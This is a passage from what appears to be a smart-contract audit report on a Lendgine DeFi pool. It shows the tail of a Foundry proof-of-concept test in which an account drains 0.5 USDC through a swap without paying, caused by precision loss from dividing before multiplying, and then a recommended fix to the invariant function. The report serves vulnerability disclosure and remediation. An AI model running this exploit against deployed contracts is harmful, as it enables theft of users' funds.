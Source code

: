 ```solidity
        liquidity: liquidity,
        amount0Min: amount0,
        amount1Min: amount1,
        sizeMin: 0,
        recipient: cuh,
        deadline: block.timestamp
      })
    );
    vm.stopPrank();
    showLendgineInfo();

    // dennis starts with zero token
    assertEq(token0.balanceOf(dennis), 0);

    // dennis pulls 0.5 USDC free
    lendgine.swap(
      dennis,
      5*10**5,
      0,
      abi.encode(
        SwapCallbackData({token0: address(token0), token1: address(token1), amount0: 0, amount1: 0, payer: dennis})
      )
    );

    showLendgineInfo();

    // assert
    assertEq(token0.balanceOf(dennis), 5*10**5);
  }
```

### Tools Used

Foundry

### Recommended Mitigation Steps

Make sure to multiply first before division to prevent precision loss.

```solidity
  /// @inheritdoc IPair
  function invariant(uint256 amount0, uint256 amount1, uint256 liquidity) public view override returns (bool) {
    if (liquidity == 0) return (amount0 == 0 && amount1 == 0);

    uint256 scale0 = FullMath.mulDiv(amount0 * token0Scale, 1e18, liquidity) ;//@audit-info change here
    uint256 scale1 = FullMath.mulDiv(amount1 * token1Scale, 1e18, liquidity) ;//@audit-info change here

    if (scale1 > 2 * upperBound) revert InvariantError();

    uint256 a = scale0 * 1e18;
    uint256 b = scale1 * upperBound;
    uint256 c = (scale1 * scale1) / 4;
    uint256 d = upperBound * upperBound;

    return a + b >= c + d;
  }

```
